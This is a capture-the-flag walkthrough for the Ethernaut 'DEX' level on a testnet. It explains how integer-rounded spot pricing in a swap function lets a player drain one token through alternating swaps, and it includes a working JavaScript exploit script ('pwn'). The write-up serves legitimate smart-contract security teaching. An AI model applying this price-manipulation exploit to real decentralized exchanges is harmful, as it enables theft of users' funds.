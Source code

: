 # [22. DEX I](https://ethernaut.openzeppelin.com/level/0xC084FC117324D7C628dBC41F17CAcAaF4765f49e)

In this level, we have a Decentralized Exchange (DEX) contract. In my instance, these are the two tokens of the DEX:

- token 1: [0xc0C87488841BF66e402F431853b100A735c1db73](https://rinkeby.etherscan.io/address/0xc0C87488841BF66e402F431853b100A735c1db73)
- token 2: [0x7EdAC717C9f67727c9c13B78AcC89B7f84dcEedb](https://rinkeby.etherscan.io/address/0x7EdAC717C9f67727c9c13B78AcC89B7f84dcEedb)

We can check that we have a bit of both tokens:

```js
// we have 10 of both tokens
(await contract.balanceOf(await contract.token1(), player)).toNumber()
(await contract.balanceOf(await contract.token2(), player)).toNumber()
// DEX has 100 of both tokens
(await contract.balanceOf(await contract.token1(), contract.address)).toNumber()
(await contract.balanceOf(await contract.token2(), contract.address)).toNumber()
```

We are asked to "drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a _bad_ price of the assets". Let us take a deeper look into the swap function then:

```solidity
function swap(address from, address to, uint amount) public {
  // token addresses must be valid
  require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");

  // sender must have enough balance of FROM
  require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");

  // calculate the price, we can inline the actual formula here
  // uint swapAmount = getSwapPrice(from, to, amount);
  uint swapAmount = (
    (amount * IERC20(to).balanceOf(address(this))) /
              IERC20(from).balanceOf(address(this))
    );

  // DEX takes "amount" tokens from us
  IERC20(from).transferFrom(msg.sender, address(this), amount);

  // DEX gives "swapAmount" tokens to us
  IERC20(to).approve(address(this), swapAmount);
  IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

There aren't any obvious attack vectors so far, so let us delve a bit more into the swapping formula. Let $d_t$ and $p_t$ denote the balance of DEX and Player for token $t$ respectively, $a$ denote amount, and $s$ denote swap amount. Note that all values are integers, rounded down if needed.

Since we have equal amount of both, without loss of generality, let us swap all of our token 1:

$$
a_s = p_1 \times \frac{d_{2}}{d_{1}} = 10 \times \frac{100}{100} = 10
$$

Giving us $p_1 = 0, p_2 = 20, d_1 = 110, d_2 = 90$, that is, we traded 10 of one token to 10 of the other. Now let us do the opposite with the new balances:

$$
a_s = p_2 \times \frac{d_{1}}{d_{2}} = 20 \times \frac{110}{90} = 24
$$

Woah! We just got 24 tokens for giving 20, even though they were treated equally in the previous trade. Let us try to simulate this with JS real quick and see if this goes on:

```js
function simulate(t1_dex, t2_dex, t1_player, t2_player, maxiters = 10) { 
  // price function
  const price = (to_dex, from_dex, amount) => Math.floor(amount * to_dex / from_dex)
  let a, sa;

  console.log(`
  Initial
    D1: ${t1_dex}
    D2: ${t2_dex}
    P1: ${t1_player}
    P2: ${t2_player}`)
  for (i = 1; i != maxiters && t1_dex > 0 && t2_dex > 0; ++i) {
    if (i % 2) {
      // trade 'a' amount of t1 for 'sa' amount of t2
      a = t1_player
      sa = price(t2_dex, t1_dex, a)
      if (sa > t2_dex) {
        // DEX can't have negative, re-calculate
        // sa equals t2_dex this way:
        sa = price(t2_dex, t1_dex, t1_dex)
      }

      // from (t1) changes for a amounts
      t1_player -= a;
      t1_dex += a;

      // to (t2) changes for sa amounts
      t2_player += sa;
      t2_dex -= sa;
    } else {
      // trade 'a' amount of t2 for 'sa' amount of t1
      a = t2_player
      sa = price(t1_dex, t2_dex, a)
      if (sa > t1_dex) {
        // DEX can't have negative, re-calculate
        // sa equals t1_dex this way:
        sa = price(t1_dex, t2_dex, t2_dex)
      }

      // from (t2) changes for a amounts
      t2_player -= a;
      t2_dex += a;

      // to (t1) changes for sa amounts 
      t1_player += sa;
      t1_dex -= sa;
    }
    
    console.log(
      `Trade #${i}
        D1: ${t1_dex}
        D2: ${t2_dex}
        P1: ${t1_player}
        P2: ${t2_player}
        Gave: ${a} Token ${i % 2 ? "1" : "2"}
        Took: ${sa} Token ${i % 2 ? "2" : "1"}`)
    
  }
} 
// simulate(100, 100, 10, 10);
```

In the simulation, if you do not check whether the swap amount is greater than the balance of DEX, you would try to take more money than DEX has; consequently reverting the transaction. For this reason, when we go to negative values with the initially calculated swap amount, we re-calculate so that the swap amount is exactly the balance of DEX.

In the formula:

$$
a_s = p_{from} \times \frac{d_{to}}{d_{from}} = d_{to}
$$

means that $p_{from}$ becomes $d_{from}$.

We can solve the puzzle by simply implementing the simulation above so that it actually calls the contract.

```js
async function pwn(maxiters = 10) { 
  // initial settings
  const T1 = await contract.token1()
  const T2 = await contract.token2()
  const DEX = contract.address
  const PLAYER = player
  let a, sa;
  let [t1_player, t2_player, t1_dex, t2_dex] = (await Promise.all([
      contract.balanceOf(T1, PLAYER),
      contract.balanceOf(T2, PLAYER),
      contract.balanceOf(T1, DEX),
      contract.balanceOf(T2, DEX)
    ])).map(bn => bn.toNumber())

  console.log(`
  Initial
    D1: ${t1_dex}
    D2: ${t2_dex}
    P1: ${t1_player}
    P2: ${t2_player}`)

  for (i = 1; i != maxiters && t1_dex > 0 && t2_dex > 0; ++i) { 
    if (i % 2) {
      // trade t1 to t2
      a = t1_player
      sa = (await contract.getSwapPrice(T1, T2, a)).toNumber()
      if (sa > t2_dex) {
        a = t1_dex
      }

      // make the call
      await contract.approve(contract.address, a)
      await contract.swap(T1, T2, a)
    } else {
      // trade t2 to t1
      a = t2_player
      sa = (await contract.getSwapPrice(T2, T1, a)).toNumber()
      if (sa > t1_dex) {
        a = t2_dex
      }

      // make the call
      await contract.approve(contract.address, a)
      await contract.swap(T2, T1, a)
    }

    // new balances
    ;[t1_player, t2_player, t1_dex, t2_dex] = (await Promise.all([
      contract.balanceOf(T1, PLAYER),
      contract.balanceOf(T2, PLAYER),
      contract.balanceOf(T1, DEX),
      contract.balanceOf(T2, DEX)
    ])).map(bn => bn.toNumber())

    console.log(
      `Trade #${i}
        D1: ${t1_dex}
        D2: ${t2_dex}
        P1: ${t1_player}
        P2: ${t2_player}
        Gave: ${a} Token ${i % 2 ? "1" : "2"}
        Took: ${sa} Token ${i % 2 ? "2" : "1"}`)
    
  }
}  
// await pwn()
```

Once you run the function above, it will take a series of transactions (your console will be quite colorful) to complete but in the end, DEX will have depleted one of the tokens! To confirm, you may run the 4 lines at the beginning to check the balances.
